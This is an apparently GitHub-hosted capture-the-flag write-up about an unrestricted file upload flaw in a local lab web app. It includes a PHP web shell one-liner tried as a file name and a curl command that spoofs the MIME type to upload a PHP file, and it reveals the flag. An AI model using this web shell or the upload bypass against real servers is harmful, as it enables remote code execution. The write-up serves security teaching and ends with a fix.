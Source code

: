 ## [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

This vulnerability is on the File Upload page: http://localhost:8080/index.php?page=upload.

By tring to upload several files, we can see that we can seemingly only send `.jpg` or `.jpeg` files:

- `test.jpeg` → `/tmp/test.jpeg succesfully uploaded.`
- `test.png` → `Your image was not uploaded.`
- `test.php` → `Your image was not uploaded.`

Local file inclusion doesn't work here: http://localhost:8080/?page=../../../../../../../tmp and
http://localhost:8080/?page=../../../../../../../tmp/test.jpeg only say `You can DO it !!!  :]`.

We tried to execute code during the filename validation with a file called `'<?php system($_GET[cmd]); ?>.jpeg'`, however it only resutls in `/tmp/.jpeg succesfully uploaded.`.

With `curl`, by copying the request sent from a browser and hardcoding the MIME type to `image/jpeg`, we get the flag:

```console
$ curl -X POST 'http://localhost:8080/index.php?page=upload#' \
    -H 'Content-Type: multipart/form-data' \
    -F 'uploaded=@unrestricted_file_upload/resources/test.php;type=image/jpeg' \
    -F 'MAX_FILE_SIZE=100000' \
    -F 'Upload=Upload' | grep flag
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/test.php succesfully uploaded.</pre>
```

The vulnerability can be fixed with stronger server-side validation, checking that the file corresponds to the MIME type.
